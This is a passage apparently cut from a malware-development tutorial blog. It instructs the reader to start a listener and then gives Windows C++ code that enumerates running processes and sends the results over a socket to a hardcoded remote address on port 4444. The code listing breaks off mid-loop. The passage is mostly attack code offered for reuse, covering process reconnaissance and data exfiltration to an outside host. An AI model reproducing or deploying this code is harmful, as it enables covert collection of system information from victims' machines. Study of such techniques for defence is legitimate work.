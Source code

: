 Start a listener on your host machine.

![P1](/assets/images/malware-development/4-0.png)

Run the application and if everything is OKAY you should get the data.
![P2](/assets/images/malware-development/4-1.png)

Thanks for reading, and here is the full code:

```cpp
#define WIN32_LEAN_AND_MEAN
#include <windows.h>
#include <stdio.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include "Psapi.h"

#pragma comment(lib, "Ws2_32.lib")

#define DEFAULT_PORT "4444"
#define DEFAULT_BUFLEN 512
#define SERVER_IP "10.0.0.5"

BOOL SendProcessesInfo(SOCKET ConnectSocket) {
    HANDLE hProcess = NULL;
    HMODULE hModule = NULL;
    WCHAR wcProc[MAX_PATH];
    DWORD dwPsses[2046], dwPids, dwRl1, dwRl2;

    if (EnumProcesses(dwPsses, sizeof(dwPsses), &dwRl1) == 0x0) {
        printf("EnumProcesses failed with error: %x", GetLastError());
        return FALSE;
    }

    dwPids = dwRl1 / sizeof(DWORD);

    char sendbuf[DEFAULT_BUFLEN];
    int iResult;

    snprintf(sendbuf, DEFAULT_BUFLEN, "Number of processes = %d\n", dwPids);
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        return FALSE;
    }

    for (int i = 1; i < dwPids; i++) {
        if (dwPsses[i] != NULL) {
```